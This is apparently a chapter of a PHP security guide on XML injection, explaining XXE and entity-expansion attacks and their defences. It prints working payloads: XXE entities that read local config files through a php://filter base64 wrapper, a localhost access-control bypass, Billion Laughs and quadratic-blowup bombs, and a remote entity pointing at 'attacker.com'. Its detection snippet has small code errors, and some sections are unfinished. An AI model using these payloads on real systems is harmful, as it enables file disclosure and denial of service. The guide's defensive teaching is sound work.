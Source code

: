 XML Injection
=============

Despite the advent of JSON as a lightweight means of communicating data between a server and client, XML remains a viable and popular alternative that is often supported in parallel to JSON by web service APIs. Outside of web services, XML is the foundation of exchanging a diversity of data using XML schemas such as RSS, Atom, SOAP and RDF, to name but a few of the more common standards.

XML is so ubiquitous that it can also be found in use on the web application server, in browsers as the format of choice for XMLHttpRequest requests and responses, and in browser extensions. Given its widespread use, XML can present an attractive target for XML Injection attacks due to its popularity and the default handling of XML allowed by common XML parsers such as libxml2 which is used by PHP in the ``DOM``, ``SimpleXML`` and ``XMLReader`` extensions. Where the browser is an active participant in an XML exchange, consideration should be given to XML as a request format where authenticated users, via a Cross-Site Scripting attack, may be submitting XML which is actually written by an attacker.

XML External Entity Injection
-----------------------------

Vulnerabilities to an XML External Entity Injection (XXE) exist because XML parsing libraries will often support the use of custom entity references in XML. You'll be familiar with XML's standard complement of entities used to represent special markup characters such as ``&gt;``, ``&lt;``, and ``&apos;``. XML allows you to expand on the standard entity set by defining custom entities within the XML document itself. Custom entities can be defined by including them directly in an optional ``DOCTYPE`` and the expanded value they represent may reference an external resource to be included. It is this capacity of ordinary XML to carry custom references which can be expanded with the contents of an external resources that gives rise to an XXE vulnerability. Under normal circumstances, untrusted inputs should never be capable of interacting with our system in unanticipated ways and XXE is almost certainly unexpected for most programmers making it an area of particular concern.

For example, let's define a new custom entity called "harmless":

.. code-block:: xml

    <!DOCTYPE results [ <!ENTITY harmless "completely harmless"> ]>

An XML document with this entity definition can now refer to the &harmless; entity anywhere where entities are allowed:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless "completely harmless">]>
    <results>
        <result>This result is &harmless;</result>
    </results>

An XML parser such as PHP DOM, when interpreting this XML, will process this custom entity as soon as the document loads so that requesting the relevant text will return the following:

    This result is completely harmless

Custom entities obviously have a benefit in representing repetitive text and XML with shorter named entities. It's actually not that uncommon where the XML must follow a particular grammar and where custom entities make editing simpler. However, in keeping with our theme of not trusting outside inputs, we need to be very careful as to what all the XML our application is consuming is really up to. For example, this one is definitely not of the harmless variety:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///var/www/config.ini">]>
    <results>
        <result>&harmless;</result>
    </results>

Depending on the contents of the requested local file, the content could be used when expanding the ``&harmless;`` entity and the expanded content could then be extracted from the XML parser and included in the web application's output for an attacker to examine, i.e. giving rise to Information Disclosure. The file retrieved will be interpreted as XML unless it avoids the special characters that trigger that interpretation thus making the scope of local file content disclosure limited. If the file is intepreted as XML but does not contain valid XML, an error will be the likely result preventing disclosure of the contents. PHP, however, has a neat "trick" available to bypass this scope limitation and remote HTTP requests can still, obviously, have an impact on the web application even if the returned response cannot be communicated back to the attacker.

PHP offers three frequently used methods of parsing and consuming XML: PHP ``DOM``, ``SimpleXML`` and ``XMLReader``. All three of these use the ``libxml2`` extension and external entity support is enabled by default. As a consequence, PHP has a by-default vulnerability to XXE which makes it extremely easy to miss when considering the security of a web application or an XML consuming library. 

Examples of XML External Entity Injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

File Content And Information Disclosure
"""""""""""""""""""""""""""""""""""""""

We previously met an example of Information Disclosure by noting that a custom entity in XML could reference an external file.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///var/www/config.ini">]>
    <results>
        <result>&harmless;</result>
    </results>

This would expand the custom ``&harmless;`` entity with the file contents. Since all such requests are done locally, it allows for disclosing the contents of all files that the application has read access to. This would allow attackers to examine files that are not publicly available should the expanded entity be included in the output of the application. The file contents that can be disclosed in this are significantly limited - they must be either XML themselves or a format which won't cause XML parsing to generate errors. This restriction can, however, be completely ignored in PHP:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY harmless SYSTEM
        "php://filter/read=convert.base64-encode/resource=/var/www/config.ini"
        >
    ]>
    <results>
        <result>&harmless;</result>
    </results>

PHP allows access to a PHP wrapper in URI form as one of the protocols accepted by common filesystem functions such as ``file_get_contents()``, ``require()``, ``require_once()``, ``file()``, ``copy()`` and many more. The PHP wrapper supports a number of filters which can be run against a given resource so that the results are returned from the function call. In the above case, we use the ``convert.base-64-encode`` filter on the target file we want to read.

What this means is that an attacker, via an XXE vulnerability, can read any accessible file in PHP regardless of its textual format. All the attacker needs to do is base64 decode the output they receive from the application and they can dissect the contents of a wide range of non-public files with impunity. While this is not itself directly causing harm to end users or the application's backend, it will allow attackers to learn quite a lot about the application they are attempting to map which may allow them to discover other vulnerabilities with a minimum of effort and risk of discovery.

Bypassing Access Controls
"""""""""""""""""""""""""

Access Controls can be dictated in any number of ways. Since XXE attacks are mounted on the backend to a web application, it will not be possible to use the current user's session to any effect but an attacker can still bypass backend access controls by virtue of making requests from the local server. Consider the following primitive access control:

.. code-block:: php

    if (isset($_SERVER['HTTP_CLIENT_IP'])
        || isset($_SERVER['HTTP_X_FORWARDED_FOR'])
        || !in_array(@$_SERVER['REMOTE_ADDR'], array(
            '127.0.0.1',
            '::1',
        ))
    ) {
        header('HTTP/1.0 403 Forbidden');
        exit(
            'You are not allowed to access this file.'
        );
    }

This snippet of PHP and countless others like it are used to restrict access to certain PHP files to the local server, i.e. localhost. However, an XXE vulnerability in the frontend to the application actually gives an attacker the exact credentials needed to bypass this access control since all HTTP requests by the XML parser will be made from localhost.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY harmless SYSTEM
        "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php"
        >
    ]>
    <results>
        <result>&harmless;</result>
    </results>

If log viewing were restricted to local requests, then the attacker may be able to successfully grab the logs anyway. The same thinking applies to maintenance or administration interfaces whose access is restricted in this fashion.

Denial Of Service (DOS)
"""""""""""""""""""""""

TBD

Defenses against XML External Entity Injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Considering the very attractive benefits of this attack, it might be surprising that the defense is extremely simple. Since ``DOM``, ``SimpleXML``, and ``XMLReader`` all rely on ``libxml2``, we can simply use the ``libxml_disable_entity_loader()`` function to disable external entity resolution. This does not disable custom entities which are predefined in a ``DOCTYPE`` since these do not make use of external resources which require a file system operation or HTTP request.

.. code-block:: php

    $oldValue = libxml_disable_entity_loader(true);
    $dom = new DOMDocument();
    $dom->loadXML($xml);
    libxml_disable_entity_loader($oldValue);

You would need to do this for all operations which involve loading XML from a string, file or remote URI.

Where external entities are never required by the application or for the majority of its requests, you can simply disable external resource loading altogether on a more global basis which, in most cases, will be far more preferable to locating all instances of XML loading, bearing in mind many libraries are probably written with innate XXE vulnerabilities present:

.. code-block:: php
    
    libxml_disable_entity_loader(true);

Just remember to reset this once again to ``TRUE`` after any temporary enabling of external resource loading. An example of a process which requires external entities in an innocent fashion is rendering Docbook XML into HTML where the XSL styling is dependent on external entities.

This ``libxml2`` function is not, by an means, a silver bullet. Other extensions and PHP libraries which parse or otherwise handle XML will need to be assessed to locate their "off" switch for external entity resolution.

In the event that the above type of behaviour switching is not possible, you can alternatively check if an XML document declares a ``DOCTYPE``. If it does, and external entities are not allowed, you can then simply discard the XML document, denying the untrusted XML access to a potentially vulnerable parser, and log it as a probable attack. If you log attacks this will be a necessary step since there be no other errors or exceptions to catch the attempt. This check should be built into your normal Input Validation routines.

.. code-block:: php
    
    $collapsedXML = preg_replace("/[:space:]/", '', $xml);
    if(preg_match("/<!DOCTYPE/i", $collapsedXml)) {
        // log the presence of custom entities
        throw new \InvalidArgumentException(
            'Invalid XML: Detected use of XML custom entities'
        )
    }

It is also worth considering that it's preferable to simply discard data that we suspect is the result of an attack rather than continuing to process it further. Why continue to engage with something that shows all the signs of being dangerous? Therefore, merging both steps from above has the benefit of proactively ignoring obviously bad data while still protecting you in the event that discarding data is beyond your control (e.g. 3rd-party libraries). Discarding the data entirely becomes far more compelling for another reason stated earlier - ``libxml_disable_entity_loader()`` does not disable custom entities entirely, only those which reference external resources. This can still enable a related Injection attack called XML Entity Expansion which we will meet next.

XML Entity Expansion
--------------------

XMl Entity Expansion is somewhat similar to XML Entity Expansion but it focuses primarily on enabling a Denial Of Service (DOS) attack by attempting to exhaust the resources of the target application's server environment. This is achieved in XML Entity Expansion by creating a custom entity definition in the XML's ``DOCTYPE`` which could, for example, generate a far larger XML structure in memory than the XML's original size would suggest thus allowing these attacks to consume memory resources essential to keeping the web server operating efficiently.

XML Entity Expansion Examples
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

There are several approaches to expanding XML custom entities to achieve the desired effect of exhausting server resources.

Generic Entity Expansion
""""""""""""""""""""""""

Also known as a "Quadratic Blowup Attack", a generic entity expansion attack, a custom entity is defined as an extremely long string. When the entity is used numerous times throughout the document, the entity is expanded each time leading to an XML structure which requires significantly more RAM than the original XML size would suggest.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY long "SOME_SUPER_LONG_STRING">]>
    <results>
        <result>Now include &long; lots of times to expand
        the in-memory size of this XML structure</result>
        <result>&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        Keep it going...
        &long;&long;&long;&long;&long;&long;&long;...</result>
    </results>

By balancing the size of the custom entity string and the number of uses of the entity within the body of the document, it's possible to create an XML
file or string which will be expanded to use up a predictable amount of server RAM. By occupying the server's RAM with repetitive requests of this nature, it would be possible to mount a successful Denial Of Service attack. The downside of the approach is that the initial XML must itself be quite large since the memory consumption is based on a simple multiplier effect.

Recursive Entity Expansion
""""""""""""""""""""""""""

Where generic entity expansion requires a large XML input, recursive entity expansion packs more punch per byte of input size. It relies on the XML parser to exponentially resolve sets of small entities in such a way that their exponential nature explodes from a much smaller XML input size into something substantially larger. It's quite fitting that this approach is also commonly called an "XML Bomb" or "Billion Laughs Attack".

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY x0 "BOOM!">
        <!ENTITY x1 "&x0;&x0;">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;">
        <!-- Add the remaining sequence from x4...x100 (or boom) -->
        <!ENTITY x99 "&x98;&x98;">
        <!ENTITY boom "&x99;&x99;">
    ]>
    <results>
        <result>Explode in 3...2...1...&boom;</result>
    </results>

The XML Bomb approach doesn't require a large XML size which might be restricted by the application. It's exponential resolving of the entities results in a final text expansion that is 2^100 times the size of the ``&x0;`` entity value. That's quite a large and devastating BOOM!

Remote Entity Expansion
"""""""""""""""""""""""

Both normal and recursive entity expansion attacks rely on locally defined entities in the XML's DTD but an attacker can also define the entities externally. This obviously requires that the XML parser is capable of making remote HTTP requests which, as we met earlier in describing XML External Entity Injection (XXE), should be disabled for your XML parser as a basic security measure. As a result, defending against XXEs defends against this form of XML Entity Expansion attack.
 
Nevertheless, the way remote entity expansion works is by leading the XML parser into making remote HTTP requests to fetch the expanded value of the referenced entities. The results will then themselves define other external entities that the XML parser must additionally make HTTP requests for. In this way, a couple of innocent looking requests can rapidly spiral out of control adding strain to the server's available resources with the final result perhaps itself encompassing a recursive entity expansion just to make matters worse.
 
.. code-block:: xml
 
    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY cascade SYSTEM "http://attacker.com/entity1.xml">
    ]>
    <results>
        <result>3..2..1...&cascade<result>
    </results>
 
The above also enables a more devious approach to executing a DOS attack should the remote requests be tailored to target the local application or any other application sharing its server resources. This can lead to a self-inflicted DOS attack where attempts to resolve external entities by the XML parser may trigger numerous requests to locally hosted applications thus consuming an even greater propostion of server resources. This method can therefore be used to amplify the impact of our earlier discussion about using XML External Entity Injection (XXE) attacks to perform a DOS attack.

Defenses Against XML Entity Expansion
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The obvious defenses here are inherited from our defenses for ordinary XML External Entity (XXE) attacks. We should disable the resolution of custom entities in XML to local files and remote HTTP requests by using the following function which globally applies to all PHP XML extensions that internally use ``libxml2``.

.. code-block:: php

    libxml_disable_entity_loader(true);

PHP does, however, have the quirky reputation of not implementing an obvious means of completely disabling the definition of custom entities using an XML DTD via the ``DOCTYPE``. PHP does define a ``LIBXML_NOENT`` constant and there also exists public property ``DOMDocument::$substituteEntities`` but neither if used has any effect whatsoever. It appears we're stuck with a default vulnerability to Entity Expansion attacks.

Nevertheless, ``libxml2`` does has a built in maximum tolerance for recursive entities

SOAP Injection
--------------

TBD